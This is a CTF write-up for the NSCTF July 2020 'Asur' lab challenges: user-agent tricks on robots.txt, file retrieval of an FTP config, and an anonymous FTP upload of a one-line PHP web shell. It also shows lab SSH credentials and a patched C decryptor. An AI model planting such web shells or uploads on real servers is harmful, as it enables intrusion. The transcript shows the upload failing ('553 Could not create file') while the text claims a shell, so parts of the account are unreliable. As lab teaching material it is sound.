

# Writeup for CTFFriday 2020 July W1 by Muzkkir


In this article, I’m going to explain solutions of NSCTF July Week 1, 2020 CTF challenge theame "Asur" Organized by Net-Square Solutions Pvt. Ltd. and created by Prachi Karad.

This CTF had Five different challenges in which major 4 domain was covered; Stenography, Cryptography, Privilege Escalation, and Web challenges. We have to start from Stenography and Cryptography exploitation to access the system and Privilege Escalation to read the flag file.

<kbd></kbd>


## First Flag

<kbd></kbd>

As the challenge was about the findings of the "Robots.txt" file. First, I try to check the request and response for the "http://10.90.137.137/robots.txt" page. But, I received an empty response. Here is the screenshot.

<kbd></kbd>


I try to change the request method to POST, still, that did not work. Then I thought it might be blocked by user-agent. So, I go to the "https://user-agents.net/" page and took a random browser-agent and build the script to try all one by one.


<kbd></kbd>

<kbd></kbd>

But I didn’t get any result because it seems that I have to use a custom agent. I visit the home page for the hint. On source code 2 hidden "base64" value was written in hidden. I tried to decode those values.

<kbd></kbd>

```
Encode Value   :  "dXNlX2NoYW5kcmFtYXVsaV8="
Decoded Value  :  "use_chandramauli_"
Encode Value   :  "d2hlbmV2ZXJfeW91X3dhbnQh"
Decoded Value  :  "whenever_you_want"
```

After that, I enter this command:

> curl --user-agent "chandramauli" http://10.90.137.137/robots.txt

and received response:

> "You made it ... but I want major version 2."

<kbd></kbd>


Spending a few minutes with the "try and error" method to get the flag.

<kbd></kbd>

And Finally This was my 1st Flag !!!

```flag{tH!5_!5_N0_Pl@C3_t0_D!3}```

<kbd></kbd>


## Second Flag


After that, I start the Nmap scan on the machine. I got 2 more ports were open. "FTP" and "SSH"

<kbd></kbd>

I tried anonymously login on SSH Port!

<kbd></kbd>

I also tried the FTP login. For that, the first thing I search for "https://www.smartfile.com/blog/the-ultimate-ftp-commands-list/" :stuck_out_tongue_closed_eyes: But still I did not get any useful information.

<kbd></kbd>

So I return to the "/robots.txt" page for the hint and got it.

<kbd></kbd>

A few minutes later, I visit "view-source:http://10.90.137.137/Lockdown_is_the_Key/" and saw some awkward URL path reference.

> Then I realize that similar tasks I played on "HackTheBox" where I used SQLi for flag. I tried, but somehow it did not work.

<kbd></kbd>

I also look for other vulnerabilities and found "File Retrieval".

<kbd></kbd>

I visit other files and Directories. Then, I look in the FTP configuration file and got 2nd flag,

```"flag{W3_@R3_!n_+H3_3NDG@M3_n0W!}"```

<kbd></kbd>


## Third Flag


After reading the entire configuration file, I found "write_enable=YES" was enabled for anonymous users. So It's time to upload shell. 

<kbd></kbd>

Website was written in PHP and I used one liner shell code ```"<?php system($_GET['cmd']);?>"``` So I uploaded shell file on server.

```
root@muzzy:~# ftp 10.90.137.137
Connected to 10.90.137.137.
220 (vsFTPd 3.0.3)
Name (10.90.137.137:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24 10:55 door
226 Directory send OK.
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24 10:55 door
226 Directory send OK.
ftp>
```

<kbd></kbd>


> Bingoo !!!

> Got shell !!

I looked at system information and user permission. I see 2 different files which might be key !!

<kbd></kbd>

```
So, I tried ssh login
    ssh usernsctf@10.90.137.137
    password: passiron3000
but failed. !!

Then I tried again with below credentials
    ssh nsctf@10.90.137.137
    password: iron3000
And Succeed!
```

<kbd>


I run common system commands and got Flag!!!

```nsctf{"Ev3ryth!ng_!5_!N_my_m!nd"}```


<kbd></kbd>


## Fourth Flag


I got 2 files in which one was encrypted, Then I tried to look for a decryption key in another file.


<kbd></kbd>


```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
    if (argc != 3) {
         printf("USAGE: %s INPUT OUTPUT\n", argv[0]);
         return 0;
     }
     FILE* input  = fopen(argv[1], "rb");
     FILE* output = fopen(argv[2], "wb");
     if (!input || !output) {
         printf("Error\n");
         return 0;
     }
     char c, p, t = 0;
     int i = 0;
    char k[] = "Whenever_you_Want!";
    i = 0;
    c, p, t = 0;
    int g = 0;
    while ((p = fgetc(input)) != 1) {
        c = (p - (k[i % strlen(k)] ^ t) - i*i) & 0xff;
         printf("Decrypting %x i=%d t=%d k=%d -> %d\n",p,i,t,(k[i % strlen(k)] ^ t),c);
        t = c;
        i++;
         fputc(c, output);
         g++;
         if (g>100) {break;}
    }
    return 0;
}
```


I am not "C language Master" but what I can understand from this code was that,

This code will help me to decrypt this "msg.enc" file, So I tried to run the C file but first I have to install GCC in that machine.

<kbd></kbd>

```
Now,
gcc encryptor.c -o enc
./enc msg.enc flag.txt
```

<kbd></kbd>

Still, the flag was encrypted !!!

<kbd></kbd>


```
After some random changes in file I found that something was wrong in that line:
"c = (p - (k[i % strlen(k)] ^ t) - i*i) & 0xff;"

So I changed the "-" value to "+" So the code would work perfectly.
c = (p + (k[i % strlen(k)] ^ t) + i*i) & 0xff;
```

<kbd></kbd>


Still somewhere went wrong!!

A few minutes spending on reading the other flags hint !!! and suddenly I remembered the key "use_chandramauli_whenever_you_want" and I changed the decryption key from "whenever_you_want!" to "chandramauli".

<kbd></kbd>


I recompiled and run code & Got Final Flag !!!

```nsctf "!n_m3m0ry_0f_+0ny_5+@rK"```


<kbd></kbd>


## Conclusion

Overall, this CTF was unique for me because I learned about FTP, cryptography, and scripting.  Also, playing this was fun and I appreciate the efforts of the team.


#

**Thank you.**

**Husseni Muzkkir.**
